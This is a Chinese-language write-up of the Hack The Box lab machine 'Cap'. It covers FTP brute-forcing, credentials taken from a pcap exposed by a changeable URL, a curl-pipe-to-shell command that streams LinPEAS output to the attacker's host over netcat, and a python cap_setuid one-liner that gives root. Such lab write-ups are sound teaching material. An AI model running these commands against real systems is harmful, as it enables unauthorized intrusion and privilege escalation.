 ```yaml
---
title: HTB cap
date: 2021-07-22 16:17:09
tags:
- linux
categories:
- 渗透
- HTB
---
```



|      IP      |   ROLE   |  OS   |
| :----------: | :------: | :---: |
| 10.10.10.245 |  Victim  | Linux |
| 10.10.14.228 | Attacker | Kali  |


> 如果你是在找writeup而看的这篇文章，那么请再坚持一下。这里给一点提示:
> 1. 仔细观察表面内容，这题并没有需要深挖的内容，别想多
> 2. root的方法题目已经给出来了


## 获取普通权限

通过nmap检查端口，发现有`21 22 80`端口打开，再没有其他端口。

第一反应是ftp的匿名用户或者常用用户。尝试爆破，这里推荐[这个字典](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt)

```bash
hydra -C password.txt -u -e s 10.10.10.245 ftp
```

ftp这里其实是个幌子，使用常用密码爆破没有作用。

然后打开80网页，通过观察，发现`10.10.10.245/data/3`这个页面是的数字是变动的，更改为`0`后获取pcap文件。

用`Wireshark`打开后过观察报文发现有FTP报文，追踪TCP流的到FTP用户密码

![](1.png)

ssh 登录

```
ssh nathan@10.10.10.245
```

## 提权

提权起手式

- 查看`sudo -l` 
- 利用`LinPEAS`搜索

当查看`sudo -l`的时候，此用户没有任何内容

### 使用 `LinPEAS`

使用不写入硬盘的方式利用`LinPEAS`，这里用到[cmder](https://github.com/Elinpf/cmder)工具提示命令。

下载LinPEAS

![](2.png)

监听端口并发送LinPEAS

![](3.png)

![](4.png)

```bash
python3 -m http.server 5711 &
nc -lvnp 1633 | tee linpeas.out
```

用cmder得到命令后，到目标机上执行

![](5.png)

```bash
curl 10.10.14.228:5711/linpeas.sh | sh | nc 10.10.14.228 1633
```

这样就可以不留痕迹的得到输出文件了

## Capabilities

观察输出文件发现

```log
╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#capabilities
Current capabilities:
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities (limited to 50):
// highlight-next-line
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
```

了解到`python3.8`拥有`cap_setuid`的能力。 关于Capabilities请查看{% post_link linux-capabilities %}

`cap_setuid`可以设置有效用户，能够提权。

因为是python，所以利用方法为

```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
```

得到root权限

## 后记

本题简单，但是也有知识点，需要对{% post_link linux-capabilities %}有所了解。